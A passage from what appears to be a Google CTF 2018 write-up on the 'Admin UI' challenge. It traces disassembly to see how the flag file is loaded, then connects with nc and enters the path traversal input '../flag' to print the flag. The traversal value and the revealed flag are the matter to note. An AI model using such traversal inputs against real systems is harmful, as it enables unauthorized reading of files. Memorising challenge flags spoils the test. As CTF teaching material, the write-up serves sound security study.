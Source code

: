 <p align="center"><a href="/images/gctf18-pwn-4.png"><img src="/images/gctf18-pwn-4.png"></a></p>

Right away I notice that after the string is called via the [puts](https://www.tutorialspoint.com/c_standard_library/c_function_puts.htm) function, the [lea](https://www.aldeid.com/wiki/X86-assembly/Instructions/lea) or "load effective address" instruction is called to load the `_ZL9FLAG_FILE` into the `rdi` or the Destination Index register.

Okay, this is simple. It seems that the application loads the flag from a file on the disk and uses that as the first password. Since the flag is loaded from disk, let's see if we can't read the flag using our path traversal vulnerability.

```console
root@kali:~/Google-CTF/Admin UI# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
2
The following patchnotes were found:
 - Version0.2
 - Version0.3
Which patchnotes should be shown?
../flag
CTF{I_luv_buggy_sOFtware}
```
